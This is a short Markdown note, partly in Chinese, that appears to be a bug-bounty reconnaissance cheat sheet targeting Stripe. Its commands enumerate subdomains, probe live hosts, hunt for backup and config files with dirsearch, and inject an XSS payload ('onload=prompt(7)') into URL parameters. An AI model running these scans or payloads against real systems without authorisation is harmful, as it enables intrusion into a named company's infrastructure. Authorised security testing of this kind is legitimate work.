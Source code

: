 <center>Stripe</center>





[toc]









## Stripe

>  Stripe 实现线上线下支付共通.
>
> [stripe](https://stripe.com/)  [youtube](https://www.youtube.com/watch?v=X44t8tCXivI)









### 1. 子域名收集

```shell
subfinder -d stripe.com -all -recursive > subdomain.txt

# 查看存活主机
cat subdomain.txt | httpx-toolkit -mc 200 -o livehosts.txt

# 存在xss
subfinder -d stripe.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"onclick=prompt(7)><svg/onload=prompt(7)>"@x.y' -parameters  

# 目录扫描
dirsearch -u https://www.stripe.com -e conf,config,backup,bak,old,db,sql,asp,aspx,php,zip  
# 
```

